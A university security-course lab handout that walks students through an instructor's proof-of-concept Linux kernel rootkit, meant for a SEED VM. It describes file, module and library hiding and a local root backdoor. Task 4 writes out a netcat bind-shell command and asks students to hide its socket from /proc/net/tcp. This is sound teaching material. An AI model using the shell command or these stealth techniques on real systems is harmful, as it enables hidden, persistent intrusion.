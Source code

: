 ```yaml
---
title: Kernel Backdoors and Rootkits
parent: System Security
nav_order: 1
summary: Rootkits
---
```


# Lab 6: Kernel Rootkits

This lab will introduce you to both kernel module programming and to kernel
backdoors and rootkits. You will take an existing kernel rootkit written by your instructor
and extend it.

**Due Date: Monday 10/02/23 before class**

## Lab Description
This lab will guide you through kernel rootkit construction. More details are
in the code's repo and below, but here is the gist. The rootkit already has the following
capabilities implemented by your instructor:

- Hide the rootkit source and object files from the filesystem (`b4rnd00r.{c,ko}`)
- Hide the rootkit from the kernel's list of loaded modules (by scrubbing `/proc/modules`)
- Hide a parasite library (used for optional binary exploitation/ELF poisoning lab), `libtest.so.1.0`, (by scrubbing `/proc/PID/maps`)
- Creates a local backdoor to get us root by exposing a device file at
  `/dev/b4rn`. When a user writes a [special string](https://www.youtube.com/watch?v=7R0mD3uWk5c) to that file, the user will
  become root.
- Hiding the backdoor character device file (`/dev/b4rn`).

### Getting the Code
**You'll want to use the SEED 16.04 Ubuntu VM for this lab**. In the VM, you can
get the code for this lab by cloning your instructor's repo:

```bash
git clone https://github.com/khale/kernel-rootkit-poc
```
Make sure to go through the `README` in the repo. The SEED VM should have everything necessary to load the rootkit.

**Using your own VM**
If you have an existing Ubuntu 16.04 VM, or want to set up your own on AWS or some other cloud
provider, just make sure you `sudo apt install make build-essential`. 


### Task 1: The code
Understand the code. You should realize that the kernel module's entry point
(`b4rn_init()`) is invoked after the module is loaded by the kernel (e.g., by
`insmod` or `modprobe`). Start there and read comments carefully.

### Task 2: The Backdoor

Could an attacker use the backdoor exposed by the rootkit to remotely get
access? Explain why or why not.

Realize that this is a pretty rudimentary backdoor. There are certainly more stealthy ways to do this (e.g., so we don't create an unwanted device file on the system). Can you think of any?

By the way, there have been [nefarious attempts](https://lwn.net/Articles/57135/) to backdoor the kernel itself,
though they were unsuccessful. This isn't limited by any means to kernel space.
The NSA is suspected to have [backdoored](https://miracl.com/blog/backdoors-in-nist-elliptic-curves/) a standard altorithm widely used for
encryption. Your instructor's [favorite example of a backdoor](https://www.win.tue.nl/~aeb/linux/hh/thompson/trust.html) was one injected
by a C compiler into the UNIX login program, devised by the [UNIX man himself](https://en.wikipedia.org/wiki/Ken_Thompson).
Definitely worth a read.


### Task 3: Hiding in Plain Sight

Explain why we must (1) use function pointers and `kallsyms_*()` functions to call certain routines and (2) manipulate `cr0` and page protections to install our function overrides.

Suppose I wanted to make it very hard for a system administrator to remove my rootkit from the system. What are some things I could do to prevent that? (Hint: there is a `reboot()` system call)

### Task 4: Remote Backdoor

For this task you'll be extending b4rnd00r to hide a remote backdoor (i.e.,
a bindshell running on the system). First run a bind shell like so:

```bash
nohup nc -nvlp 9474 -e /bin/bash >/dev/null 2>&1 &
```
(note, you may have to install `netcat-traditional` for this to work).

This listens on port 9474, and when a client connects it will spawn a shell and
send output back out over the network socket. The `nohup` command prevents the
netcat program from exiting after we log out of the system (which we would
probably do after we've owned a machine and set up the backdoor). The
redirection just silences output on the server side.

If you've got bridged networking set up for your VM, you should be able to
access this bind shell as follows from your **host** machine:

```bash
nc <VM-IP> 9474
```

You can access it with NAT networking as well, but you'll have to forward the
9474 port with your hypervisor. It's probably just easier to use bridged
networking. Other than the `nc` process itself, the listening socket can be seen
by an auditor pretty easily by using `netstat`:

```
$ netstat -tl
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State      
    tcp        0      0 cato:domain             0.0.0.0:*               LISTEN     
    tcp        0      0 localhost:ipp           0.0.0.0:*               LISTEN     
    tcp        0      0 0.0.0.0:9474            0.0.0.0:*               LISTEN     
    tcp6       0      0 localhost:ipp           [::]:*                  LISTEN     
    tcp6       0      0 [::]:9474               [::]:*                  LISTEN
```


This is no good if we're trying to be stealthy. We can pretty much guess that
this information is coming from the kernel, and almost certainly from `/proc`
somewhere, and that `netstat` is really just sugar coating the kernel's output.
We can do some digging to find out exactly where:

```
 $ strace netstat -tl 2>&1 | grep "^open" | grep "proc"
    openat(AT_FDCWD, "/proc/net/tcp", O_RDONLY) = 3
    openat(AT_FDCWD, "/proc/net/tcp6", O_RDONLY) = 3
```

Sure enough, `netstat` is really just a wrapper around the `/proc` interface. Let's
see the raw information straight from the source (the kernel):

```
$ cat /proc/net/tcp
     sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
       0: 017AA8C0:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 34934 1 000000007060ba94 100 0 0 10 0 
       1: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 30174 1 00000000d07a82df 100 0 0 10 0
       2: 00000000:2502 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 59441 1 000000003a4d11ec 100 0 0 10 0
```

You can see why `netstat` exists now. This output is pretty opaque. If we
realize that 9474 is actually 0x2502, however, we can pretty easily identify
our bind shell. This gives us a hint on how to hide our connection then,
because we really just need to scrub this output to remove that line in our
rootkit. This is your task!

Some hints:
- You should be able to use the same `seq_file` technique used for the maps file.
- Network sockets are also exposed in `/proc`. You will focus on TCP (IPv4). You will thus need to take a look at `/proc/net/tcp` (or `/proc/self/net/tcp`).
- You'll want to see the `tcp4_seq_show()` [function](https://elixir.bootlin.com/linux/v4.8/source/net/ipv4/tcp_ipv4.c#L2257).
- When you override the seq file, you will need to use the `struct inet_sock` [structure](https://elixir.bootlin.com/linux/v4.8/source/include/net/sock.h#L306) (which you can derive from the `v` pointer in your seq handler). Given a `struct sock * sk`, you will need to extract the port number from the socket structure like so: `ntohs(inet_sk(sk)->inet_sport)`.
- You don't need to use `unprotect_page()` and `protect_page()` like was done for the maps file.
- Make sure not to dereference the special start socket (if `v==SEQ_START_TOKEN`, just pass it along to the normal seq function).

<!--
- The proc dirs for `/proc/net` are organized in a red black tree. See [here](https://lwn.net/Articles/184495/) and understand the `init_net` struct from the `net/tcp.h` [header](https://elixir.bootlin.com/linux/v4.8/source/include/net/tcp.h) and its `proc_net` member field. You will want to use [helper functions](https://elixir.bootlin.com/linux/v4.8/source/include/linux/rbtree.h#L69) provided by Linux like `rb_first()`, `rb_last()`, `rb_entry()`, `struct proc_dir_entry` etc.
--> 

## Handin
Please write your lab report according to the description. Please also list the
important code snippets followed by your explanation. You will not receive
credit if you simply attach code without any explanation. Upload your answers
as a PDF to blackboard

## Prerequisite Reading
[Linux Kernel Module Programming Guide](https://sysprog21.github.io/lkmpg/) (Chs. 1-7)


## Further Reading
- Intro to [Linux kernel modules](https://tldp.org/HOWTO/Module-HOWTO/x73.html)
- Linux VFS, proc, and root filesystems [article](https://harryskon.wordpress.com/2015/03/31/vfs-proc-and-root-filesystems/)
- Kernel documentation on [seq files](https://www.kernel.org/doc/Documentation/filesystems/seq_file.txt)
- Another [rootkit example](https://0x00sec.org/t/hiding-with-a-linux-rootkit/4532)
- [Article](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9) on bind shells, reverse
shells, etc.
- [Sysdig](https://github.com/draios/sysdig)
- [Looking back at Multics security](https://hack.org/mc/texts/classic-multics.pdf)
